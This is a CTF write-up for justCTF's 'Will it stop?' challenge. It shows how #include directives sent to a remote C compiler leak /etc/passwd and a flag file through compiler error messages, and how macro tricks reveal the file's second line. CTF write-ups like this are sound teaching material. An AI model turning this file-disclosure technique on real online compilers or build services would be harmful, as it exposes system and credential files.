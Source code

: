 # Will it stop?

## Challenge info

Poor Vesim... Would you help him?

```
nc will-it-stop.nc.jctf.pro 1337
# EDITed: after CTF use:
nc 2019.nc.jctf.pro 1342
```

PS: The `flag` is in users home directory.

Link to pdf [mirror](ctf.pdf)

## PDF contents

```
Will it stop?

Memory limit:
Time limit:

42 MiB
1337 ms

Vesim is a CS student. This semester he is really struggling to pass computability and formal language
theory course. He asked for a last chance, so the professor gave him a task: "For a given Python program, tell
me if it will eventually stop or not!". Sadly Vesim was pwning and reversing so he didn’t have time to solve this
problem. Could you help him?
The professor agreed to host the submission system on his private server.
Funny fact: At home the professor has a wide collection of flags from all over the world!

I NPUT
First line of input contains number N .
Following N lines contain Python source code.

OUTPUT
If the given Python program stops, the output shall contain "YES", otherwise "NO".

EXAMPLES

Input
2
while 1:
pass

Output
NO

Input
1
print("jctf{stop!}")

Output
YES
```

## Solution

At first, I've checked the endpoint:
```
How many lines does your C program parsing a Python code have?
1
Write your program now:
int main(void) {puts("gopa");}
Ok, let's build it!
...
GO LEARN MORE CS OR YOU WILL NEVER PASS IT!!11!
```
NOTE: At the begining of the ctf there was an linking error (e.g. `ld: error: cannot write into /dev/null` or something like this) instead of this `GO LEARN MORE CS..` text.

So, if our code will not be linked and executed the information disclosure should be happen in the compilation process, also recently I heard that system files could be partly read with `#include` directives of cpp (C preprocessor).

After it, I've tried to see usernames of the "professor's" computer, because flag should be in users home directory:
```
~/g/c/will_it_stop> cat test1.txt 
1
#include "/etc/passwd"
~/g/c/will_it_stop> cat test1.txt | nc 2019.nc.jctf.pro 1342
How many lines does your C program parsing a Python code have?
Write your program now:
Ok, let's build it!
In file included from <stdin>:1:0:
/etc/passwd:1:8: error: expected '=', ',', ';', 'asm' or '__attribute__' before ':' token
 aturing:x:1000:1000::/home/aturing:/bin/sh
        ^
COMPILATION FAILED
```

Seems like, username is aturing, so flag should be `/home/aturing/flag`:

```
~/g/c/will_it_stop> cat test2.txt 
1
#include "/home/aturing/flag"
~/g/c/will_it_stop> cat test2.txt | nc 2019.nc.jctf.pro 1342
How many lines does your C program parsing a Python code have?
Write your program now:
Ok, let's build it!
In file included from <stdin>:1:0:
/home/aturing/flag:1:8: error: expected '=', ',', ';', 'asm' or '__attribute__' before ':' token
 justCTF:is_this_the_real_flag__is_this_just_fantasy__open_your_eyes_look_bellow_in_the_file_and_see
        ^
COMPILATION FAILED
```

Here I've stuck for a while, becouse I needed to somehow reveal the contents of the second line of the file,
to do this the error on /home/aturing/flag:1 should be "fixed".

In C symbol `:` is used for ternary operator (e.g. `STATEMENT ? "IF TRUE" : "IF FALSE"`), and for bitfields
I've decided that it would be easier to use ternary operator and with trial and error I've came to this:

```
~/g/c/will_it_stop> cat test.txt
4
#define justCTF 1
int is_this_the_real_flag__is_this_just_fantasy__open_your_eyes_look_bellow_in_the_file_and_see = 1;
int gopa = 1 ?
#include </home/aturing/flag>
~/g/c/will_it_stop> cat test.txt | nc 2019.nc.jctf.pro 1342
How many lines does your C program parsing a Python code have?
Write your program now:
Ok, let's build it!
<stdin>:1:17: error: expected ',' or ';' before numeric constant
/home/aturing/flag:2:1: note: in expansion of macro 'justCTF'
 justCTF{mama_just_got_a_flag}
 ^~~~~~~
COMPILATION FAILED
```
